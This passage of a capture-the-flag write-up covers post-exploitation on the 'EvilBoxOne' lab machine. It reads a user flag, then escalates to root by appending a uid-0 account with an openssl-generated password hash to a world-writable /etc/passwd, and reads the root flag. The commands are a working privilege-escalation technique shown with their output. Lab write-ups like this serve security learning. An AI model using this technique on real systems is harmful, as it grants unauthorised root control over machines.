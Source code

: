 
# post exploitation
## get first flag
```bash
mowree@EvilBoxOne:~$ ls
local.txt
mowree@EvilBoxOne:~$ cat local.txt 
1******************************6
```

## privilege escalation
```bash
mowree@EvilBoxOne:~$ ls -lsah /etc/passwd
4,0K -rw-rw-rw- 1 root root 1,4K ago 16  2021 /etc/passwd
```

> The file `/etc/passwd` is world writeable, so we can add a new user with `root` privileges.
{: .prompt-info }
  
First we create a password hash with the salt `new` and the password `123`.
```bash
$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```

Now we add the following line to the end of the file `/etc/passwd`.
```bash
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

After this we can change to user `new` with password `123`.
```bash
mowree@EvilBoxOne:~$ su new
Contraseña: 
root@EvilBoxOne:/home/mowree# id
uid=0(root) gid=0(root) grupos=0(root)
```

> We are `root`!
{: .prompt-info }

## get second flag
```bash
root@EvilBoxOne:/home/mowree# cd /root/
root@EvilBoxOne:~# ls
proof.txt
root@EvilBoxOne:~# cat proof.txt 
1******************************5
```

Pwned! <@:-)
